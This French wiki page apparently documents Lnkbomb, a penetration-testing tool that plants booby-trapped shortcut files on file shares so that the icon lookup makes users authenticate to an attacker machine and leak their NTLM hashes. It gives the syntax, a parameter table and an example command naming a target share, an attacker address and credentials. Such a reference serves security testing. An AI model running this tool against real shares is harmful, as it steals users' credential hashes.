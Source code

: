 ```yaml
---
title: Lnkbomb
description: Transfère automatiquement des fichiers raccourcis piégés (.lnk) vers des partages de fichiers. Permet de récupérer le hash NTLM de l'utilisateur quand il essaie d'accéder au raccourci.
published: true
date: 2024-10-26T08:48:28.545Z
tags: outil, windows
editor: markdown
dateCreated: 2024-10-26T08:26:41.495Z
---
```


# Introduction

Lnkbomb permet de transférer automatiquement des fichiers raccourcis piégés (.url) vers des partages de fichiers. Permet de récupérer le hash NTLM de l'utilisateur quand il essaie d'accéder au raccourci.

La base de l'exploitation repose sur le fait de définir l'icone du raccourci vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupèrer cette icône.

> Lnkbomb est disponible au téléchargement [ici](https://github.com/dievus/lnkbomb)
> {.is-info}

# Syntaxe

`lnkbomb.py --target <adresse du partage cible> --attacker <adresse de la machine attaquante> -s <nom du partage> <--windows|--linux> [--netbios <nom netbios>] [paramètres]`

# Paramètres

| Paramètre                                                   | Description                                                                               |
| ----------------------------------------------------------- | ----------------------------------------------------------------------------------------- |
| `-h, --help`                                                | Affiche l'aide.                                                                           |
| `-t, --target`                                              | Spécifie l'adresse de la cible contenant le partage où déposer le fichier raccourci .url. |
| `-a, --attacker`                                            | Spécifie l'adresse de la machine attaquante vers laquelle renvoyer l'utilisateur.         |
| `-r <nom de fichier .url>, --recover <nom de fichier .url>` | Supprime le fichier spécifié raccourci .url sur le partage.                               |
| `-w, --windows`                                             | Utilise les ports associés à Windows.                                                     |
| `-l, --linux`                                               | Utilise les ports associés à Linux.                                                       |
| `-n <nom netbios>, --netbios <nom netbios>`                 | Spécifie le nom netbios de la cible. Obligatoire pour Windows.                            |

# Exemples

Créer un fichier piégé .url avec comme emplacement d'icone 192.168.1.100. Situé sur \\192.168.1.1\MonPartage, sur une machine Windows nommée "serveurpartage". S'authentifie au partage avec l'utilisateur Admin et le mot de passe "MotDePasseAdmin!".

`lnkbomb.py -t 192.168.1.1 -a 192.168.1.100 -s MonPartage -u Admin -p MotDePasseAdmin! -n serveurpartage --windows`
